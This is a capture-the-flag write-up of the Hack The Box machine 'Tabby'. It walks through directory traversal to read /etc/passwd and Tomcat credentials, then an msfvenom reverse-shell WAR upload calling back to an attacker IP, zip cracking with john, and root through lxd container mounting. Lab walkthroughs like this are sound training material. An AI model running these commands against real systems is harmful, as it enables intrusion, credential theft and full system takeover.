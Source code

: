 ```yaml
---
icon: /assets/avatars/tabby.png
image: /assets/avatars/tabby.png
author: Valerio Casalino
title: Tabby Writeup
---
```


# Tabby

As always let's start with an `nmap` to get open ports.

![image-20201022115235445]({{ site.url }}/assets/tabby/image-20201022115235445.png)

And we got this result:

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux;protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

At this point, before starting any automated enumeration, we should take a look at the websites on port 80 and on port 8080.

![image-20201022115744210]({{ site.url }}/assets/tabby/image-20201022115744210.png)

On port 80 we can immediately see an email, which gives us a domain name. It is not really important for this machine, but a good practice in cases like this is to check for virtual hosts by adding the domain to the hosts file:

```bash
echo "\n10.10.10.194\t\tmegahosting.htb www.megahosting.htb\n" | sudo tee -a /etc/hosts
```

So, after this edit, we can connect to megahosting.htb and start looking around, until we find a curious way to include content in the news page:

```
http://megahosting.htb/news.php?file=statement
```

We can modify the request with `burp`, but seems a little overkill for this task, so we can try to trigger a directory traversal with a simple `curl` first (assuming the website is placed in `/var/www/../something`):

```bash
curl "http://www.megahosting.htb/news.php?file=../../../../etc/passwd"
```

![image-20201022131328944]({{ site.url }}/assets/tabby/image-20201022131328944.png)

We discovered the user `ash`, but, more importantly, that this location is vulnerable to a bad file inclusion that we can exploit later.

To take advantage of this vulnerability, we have to check port 8080.

![image-20201022131529012]({{ site.url }}/assets/tabby/image-20201022131529012.png)

Which gives us the initial page of tomcat and the CATALINA_HOME, in which a file named `tomcat-users.xml` contains the credentials for tomcat. The info can be retrieved with a simple Google search, [here](https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory) is the link to the article I found.

If we trigger the file inclusion on port 80 to get that file we have:

![image-20201022131953473]({{ site.url }}/assets/tabby/image-20201022131953473.png)

So we got tomcat's credentials: `tomcat:$3cureP4s5w0rd123!`.

After a little research on how to upload a `.war` file ([WAR (file format)](https://en.wikipedia.org/wiki/WAR_(file_format))), I found [this answer](https://stackoverflow.com/a/52386613) on StackOverflow, and I did made exactly that.

```bash
# First, create the war file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -f war > shell.war
# Then upload it using tomcat's creds
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://megahosting.htb:8080/manager/text/deploy?path=/lolz&update=true'
# Get ready for the reverse shell
nc -lvvp 9001
```

Now, if we go to `http://megahosting.htb:8080/lolz`, we'll trigger the reverse shell!

![image-20201022133127965]({{ site.url }}/assets/tabby/image-20201022133127965.png)

At this point, with some enumeration, we can find a backup file:

![image-20201022133555734]({{ site.url }}/assets/tabby/image-20201022133555734.png)

(I just used `find` to find all the files in the system that I could read, but that were owned by `ash`)

Let's get this backup.

```bash
wget "http://www.megahosting.htb/news.php?file=../../../../var/www/html/files/16162020_backup.zip" -O backup.zip
```

The zip file is password protected, so we'll use `john` to find it.

![image-20201022134232933]({{ site.url }}/assets/tabby/image-20201022134232933.png)

At this point, the only thing left to do is let `john` do its magic:

```bash
john --wordlist=/usr/share/wordlists/passwords/rockyou.txt for_john.txt
```

Then we get the password of the archive, which is the same as `ash`'s account, so we obtained user's credentials: `ash:admin@it`.

So, we can switch user into the box:

![image-20201022191319438]({{ site.url }}/assets/tabby/image-20201022191319438.png)

For my comfort I'll suggest to [put a pubkey](https://www.ssh.com/ssh/keygen/) into `ash`'s `~/.ssh/authorized_hosts`, or [upgrade your shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/), but everything will work anyway. Go in the home directory and get the flag.

Running `id`, we discovered that the user is in the `lxd`  group, so he's able to create containers and running them as `root`. If we mount the root partition inside the container we can basically be root in the box. Documentation of LXD [here](https://linuxcontainers.org/lxd/docs/master/). 

First, you have to get a container image from the [web repository](https://images.linuxcontainers.org/images/) and transfer it to the box:

```bash
# Locally
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
mv alpine-* alpine.tar.gz
python3 -m http.server
# On Tabby
a=$(mktemp -d)
cd $a
wget "http://10.10.14.51:8000/alpine.tar.gz"
lxc image import ./alpine.tar.gz --alias lolz-image
```

To run the privilege escalation you have to:

```bash
# Initialize the container and make it accessible as root
lxc init lolz-image lolz -c security.privileged=true
# Mount the root partition (/) where you want
lxc config device add lolz lolz-image disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start lolz
# Get a shell inside of it
lxc exec lolz /bin/sh
```

... profit.

![image-20201022194855232]({{ site.url }}/assets/tabby/image-20201022194855232.png)
